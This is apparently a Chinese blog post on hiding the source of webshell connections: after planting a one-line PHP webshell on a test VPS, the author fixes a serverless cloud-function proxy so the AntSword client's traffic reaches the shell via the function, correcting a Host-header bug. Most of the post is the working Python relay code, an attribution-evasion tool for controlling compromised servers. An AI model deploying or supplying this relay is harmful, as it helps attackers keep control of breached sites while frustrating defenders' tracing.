

论如何防溯源连接WebShell
前两天看到这篇文章,今天在vps上测试了一下,发现蚁剑啥的都连不上.
vps环境是宝塔搭的,nginx+php.
在web目录下写入一句话.直接访问正常.
然后照着上述文章的方法复现,发现蚁剑报错.burp抓包发现是404.
打开云函数后台,发现请求正常.响应正常,只不过是404.

这样大概原因就能猜到了. nginx这类反代中间件需要通过匹配HOST转发向对应的负载.
文章的代码把headers覆盖了,因此requests.post并不能正确的带上HOST.
因此需要手动添加.
改好的bug如下.
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
| #!/usr/bin/env python
# -*- coding:utf-8 -*-
import requests
import json
from urllib.parse import urlsplit
def geturl(urlstr):
jurlstr = json.dumps(urlstr)
dict_url = json.loads(jurlstr)
return dict_url['u']
def main_handler(event, context):
url = geturl(event['queryString'])
host = urlsplit(url).netloc
postdata = event['body']
headers=event['headers']
headers["HOST"] = host
resp=requests.post(url,data=postdata,headers=headers,verify=False)
response={
"isBase64Encoded": False,
"statusCode": 200,
"headers": {'Content-Type': 'text/html;charset='+resp.apparent_encoding},
"body": resp.text
}
return response
|